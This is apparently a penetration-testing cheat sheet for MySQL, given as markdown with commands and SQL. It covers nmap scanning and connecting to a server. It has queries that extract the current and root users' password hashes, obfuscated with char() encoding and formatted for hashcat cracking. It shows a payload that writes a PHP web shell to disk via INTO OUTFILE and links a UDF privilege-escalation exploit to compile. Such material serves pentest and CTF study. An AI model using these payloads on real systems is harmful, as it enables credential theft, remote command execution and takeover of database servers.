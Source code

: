 # MySQL enumeration and exploitation
* [Initial enumeration](#initial-enumeration)
* [Connecting to a MySQL database](#connecting-to-a-mysql-database)
* [Enumerating a database](#enumerating-a-database)
* [Saving anything to a file](#saving-anything-to-a-file)
* [UDF PrivEsc](#udf-privesc)

## Initial enumeration
```bash
nmap -vv -p 3306 -sT --script=+mysql* <ip>
```

## Connecting to a MySQL database
- Connect to a database using `mysql` client:
```bash
mysql -u <username> -p<no_space_before_password> -h <ip> -P 3306 <database> 
```
- Connect using `mysqlsh` _(X Protocol)_:
```bash
mysqlsh --mysqlx -u <username> -p<no_space_before_password> -h <ip> -P 33060 -D <database>
```

## Enumerating a database
- Get version:
```SQL
SELECT @@version;
```
- Get current database:
```SQL
SELECT database();
```
- Get current user:
```SQL
SELECT current_user();
```
- Get current user's password hash:
```SQL
SELECT password FROM mysql.user WHERE user=left(current_user(),locate(char(064),current_user())-1) AND convert(host USING UTF8)=substring(current_user(),locate(char(064),current_user())+1,255); -- Some databases still use password column
SELECT authentication_string FROM mysql.user WHERE user=left(current_user(),locate(char(064),current_user())-1) AND convert(host USING UTF8)=substring(current_user(),locate(char(064),current_user())+1,255);
SELECT concat(concat(char(036),char(109),char(121),char(115),char(113),char(108)),left(authentication_string,6),char(042),insert(hex(substring(authentication_string,8)),41,0,char(042))) FROM mysql.user WHERE user=left(current_user(),locate(char(064),current_user())-1) AND convert(host USING UTF8)=substring(current_user(),locate(char(064),current_user())+1,255); -- A current user's password hash encoded for the 7401 hashcat mode. Use this if a password hash has non-ASCII characters.
```
- List all users:
```SQL
SELECT user FROM mysql.user ORDER BY 1;
```
- Get default user's password hash:
```SQL
SELECT password FROM mysql.user WHERE lower(user)=concat(char(114),char(111),char(111),char(116)); -- "root" user. Some databases still use password column
SELECT authentication_string FROM mysql.user WHERE lower(user)=concat(char(114),char(111),char(111),char(116)); -- "root" user.
SELECT concat(concat(char(036),char(109),char(121),char(115),char(113),char(108)),left(authentication_string,6),char(042),insert(hex(substring(authentication_string,8)),41,0,char(042))) FROM mysql.user WHERE lower(user)=concat(char(114),char(111),char(111),char(116)); -- A root user's password hash encoded for the 7401 hashcat mode. Use this if a password hash has non-ASCII characters.
```
- List tables:
```SQL
SELECT table_schema,table_name FROM information_schema.tables ORDER BY 1;
```
- List table columns:
```SQL
SELECT column_name FROM information_schema.columns WHERE table_name='<table_name>' ORDER BY 1;
```
- Search for `%user%` like tables:
```SQL
SELECT table_schema,table_name FROM information_schema.tables WHERE lower(table_name) LIKE concat(char(37),char(117),char(115),char(101),char(114),char(37)) ORDER BY 1 LIMIT 1 OFFSET 0;
```

## Saving anything to a file
- Usually MySQL has permissions to write into the `/var/lib/mysql` folder:
```SQL
select '<?php system($_GET[\'c\']); ?>' into outfile '/var/lib/mysql/cmd.php';
```

## UDF PrivEsc
- Check if MySQL demon is running as root.
- Compile this exploit: https://raw.githubusercontent.com/1N3/PrivEsc/master/mysql/raptor_udf2.c

